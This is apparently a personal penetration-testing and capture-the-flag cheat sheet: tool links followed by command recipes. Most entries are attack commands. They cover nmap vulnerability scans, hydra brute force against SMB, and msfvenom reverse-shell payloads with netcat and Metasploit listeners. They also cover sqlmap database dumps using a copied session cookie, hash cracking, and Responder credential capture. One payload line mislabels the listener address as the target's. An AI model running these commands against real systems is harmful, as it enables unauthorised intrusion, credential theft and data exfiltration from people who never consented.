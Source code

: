 
dCode FR  
https://www.dcode.fr/en
  
Web Check  
https://web-check.xyz/  
  
Windows CMD Commands  
https://ss64.com/nt/
  
Reverse Sheel  
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
  
Cracking RSA  
https://hascyber.medium.com/cracking-rsa-1f811f9e9a24
  
Crack Station  
https://crackstation.net/  
  
Start Me CTI  
https://start.me/p/rxRbpo/cti
  
Stego Aperisolve  
https://www.aperisolve.com

sha256sum
sha224sum
sha384sum
sha512sum
shasum
openssl dgst


##############################################

FINDING FILES ON LINUX

Hidden Files
find /path/to/search -type f -name ".*.txt"

Files Files by Extension
find . -type f -name "*.csv"

FINDING FILES ON WINDOWS

Hidden Files
cd directory
dir /s /a:h *.txt

Files Files by Extension
dir /s /b *.txt

NMAP BRUTE FORCE CHECK
nmap -sS -A -T4 TARGET

NMAP LOOKING FOR GENERAL VULNS
nmap -Pn --script vuln TARGET

NMAP LOOKING FOR REMOTE LOGIN SERVICES (SSH, TELNET and RDP)
nmap -p 22,23,3389 TARGET -oN /path/Remote-Logins.txt

NMAP LOOKING FOR FTP SERVICE
nmap -p 21 TARGET -oN /path/FTP-Service.txt

NMAP BRUTE FORCE WEB APP
nmap -T4 -A -v SITE ADDRESS

NMAP LOOKING FOR BANNER GRABBING (Version, OS and Services)
nmap -sS -sV -O TARGET -oN /path/Banner-Grabbing.txt

NMAP LOOKING FOR LDAP PORTS
nmap -p 389,636 -sV TARGET -oN /path/LDAP-Ports.txt

NMAP LOOKING FOR HTTP/S PORTS
nmap -sV -A -p 80,443 TARGET -oN /path/HTTP-Ports.txt

NMAP LOOKING FOR MOBILE ANDROID PORTS
nmap -sV -A -p 5555-5585 TARGET -oN /path/Android-Ports.txt

NMAP LOOKING FOR SMB VULNS
nmap -T4 -sS -p 139,445 --script=smb-vuln-* TARGET  -oN /path/SMB-Vulns.txt

NMAP LOOKING FOR UNKNOWN PORTS
nmap -sS -p- TARGET -oN /path/Unknown-Ports.txt

BRUTE FORCE HYDRA SMB
hydra -l static-user -P /home/passlist.txt TARGET smb
hydra -L /path/users-wordlist.txt -P /path/password-wordlist.txt TARGET smb

CONNECT USING SMB CLIENT COMMANDS
smbclient //TARGET/share + ENTER
smbclient -L TARGET  -U USERNAME + ENTER

CONNECT USING ADB
adb connect TARGET:PORT

INVOKING ADB SHELL
adb shell

GET FILES USING ADB
adb pull /paths
adb pull /origin-path destination-path (/home/user/Deskto)

INSTALL ENT APP
apt install ent

GET ENTROPY INFORMATION
ent FILE

CONNECTING TELNET AND GRABBING HTTP INFO
telnet TARGET PORT
GET / HTTP/1.0

MSFVENOM REVERSE NETCAT
msfvenom -p cmd/unix/reverse_netcat LHOST=TARGET-IP LPORT=PORT R
nc -lnvp PORT

MSFVENOM REVERSE PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=TARGET-IP LPORT=PORT -f raw > exploit.php

STEGHIDE SINTAX
sudo apt install steghide
steghide info IMAGE-FILE-NAME
steghide extract -sf IMAGE-FILE-NAME

SIMPLE HTTP SERVER USING PYTHON
python -m http.server PORT

FTP LOGIN COMMAND
ftp TARGET

njRAT RAT
Default Port: 5553

Hybrid Analisys
https://www.hybrid-analysis.com 

DIE
die.exe
Open File > Find the ELF file > Open
Check Advanced > File Info > Entropy or Hash

CHECKING COOKIES IN THE BROWSER
Developer Tools > Console > document.cookie > Enter > Copy Message

SQLMAP USING COOKIE TO GET DATABASES
sqlmap -u "URL" --cookie="Cookie Value" –-dbs

SQLMAP USING COOKIE TO GET TABLES FROM DATABASES
sqlmap -u "URL" --cookie="Cookie Value" -D "DATABASENAME" --tables

SQLMAP USING COOKIE TO GET TABLE CONTENT
sqlmap -u "URL" --cookie="Cookie Value" -D "DATABASENAME" -T "TABLENAME" --dump

USING WHATWEB
whatweb URL ADDRESS

USING OWASP ZAP
apt install zaproxy
Automated Scan > URL > Attack
Active Scan / Alerts / Spider (Messages)

MSCONSOLE REVERSE SHELL PHP
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST and LPORT > run

JSQL
sudo su jsql > URL with ParamID

HASHCAT
hashcat -h | grep "TYPE"
hashcat -m 0 HASH-FILE /path/wordlistfile/

JOHN
john HASH-FILE

RESPONDER
sudo responder -l eth0
/usr/share/responder/logs

LINUX
uname -a
uname -r